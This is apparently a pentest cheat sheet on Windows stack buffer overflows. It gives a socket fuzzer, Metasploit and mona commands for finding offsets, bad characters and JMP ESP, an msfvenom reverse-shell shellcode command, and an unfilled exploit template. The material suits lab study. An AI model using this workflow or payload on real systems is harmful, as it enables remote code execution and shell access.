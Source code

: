 # Buffer Overflow

## Fuzzers

{% embed url="https://github.com/AceSineX/BOF-fuzzer-python-3-All-in" %}

```python
#!/usr/bin/python3

import sys, socket
from time import sleep

buffer = "A" * 100
prefix = ""
while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.49.177',7138))

        payload = prefix + buffer
        s.send((payload.encode()))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100

    except:
        print ("Fuzzing crashed at %s bytes" % str(len(buffer)))
        sys.exit()
    
```

## Steps

* Fuzz and crash program w/ A's
* Create msfpattern

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

* Provide EIP to find offset

```
!mona findmsp -distance 600
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q (EIP value)
```

* Check for bad characters

```
!mona config -set workingfolder c:\mona\%p 
!mona bytearray -cpb "\x00"
!mona compare -f c:\mona\nameOfProgram\bytearray.bin -a ESP-Address
```

* Find JMP ESP/Return Address
  * make sure protection schemes are off and base address doesn't contain bad chars

```
!mona jmp -r ESP
```

* Generate Shellcode

{% code overflow="wrap" %}
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.x.x LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00"
```
{% endcode %}

* Exploit!

## Exploit.py

```python
import socket

ip = "192.168.0.1"
port = 9999

prefix = ""
offset = ""
overflow = "A" * offset
retn = "" # JMP ESP/Return Address
padding = "" # "\x90" * 16 # nops
payload = ()
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```
